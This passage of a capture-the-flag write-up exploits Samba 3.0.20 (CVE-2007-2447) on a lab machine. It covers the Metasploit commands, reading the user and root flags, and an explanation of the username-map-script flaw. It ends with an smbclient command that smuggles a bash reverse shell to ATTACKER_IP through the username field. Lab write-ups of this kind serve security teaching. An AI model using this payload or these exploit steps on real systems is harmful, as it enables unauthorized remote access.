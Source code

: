 ```

**Links:**
1. [NIST CVE-2007-2447](https://nvd.nist.gov/vuln/detail/CVE-2007-2447)
2. [exploitdb - Find the exploit here](https://www.exploit-db.com/exploits/16320)

Next step I performed is finding if the exploit is available in the Metasploit framework or searchsploit database. 

`searchsploit Samba 3.0.20`

![[7.png]]

And this gives an output that shows the exact same exploit available in metasploit framework, so this might be our ticket in. Let's explore and exploit it! I used the following commands to perform the exploit:

```
msfconsole
msf6> search Samba 3.0.20
msf6> use 0
msf6> show options
msf6> set RHOSTS 10.10.10.3
msf6> set LHOST 10.10.14.11
msf6> exploit
```

In the options, I have set *RHOSTS* to the target IP and *LHOST* to my vpn IP. It is very important to set the LHOST properly, or else you will not get the connection or reverse shell.

![[8.png]]
![[9.png]]

As you can review from the above images that we finally have achieved root access. Yay! Finally after so many dead-ends we are here now. The final demand of the machine is to get a user flag from the user makis and a root flag. So I found them using the following commands:

**makis's flag:**
```
cd /home/makis/
ls
cat user.txt
```

**root flag:**
```
cd /root
ls
cat root.txt
```


![[10.png]]

![[11.png]]

#### How this vulnerability works?

This exploits a command execution vulnerability in *Samba version 3.0.20* through 3.0.25rc3 when using the non-default "username map script" configuration option. By specifying a username containing shell meta characters, attackers can execute arbitrary commands. No authentication is needed to exploit this vulnerability since this option is used to map usernames prior to authentication.

`smbclient //192.168.1.100/shared_folder -U "/=nohup bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1"`

```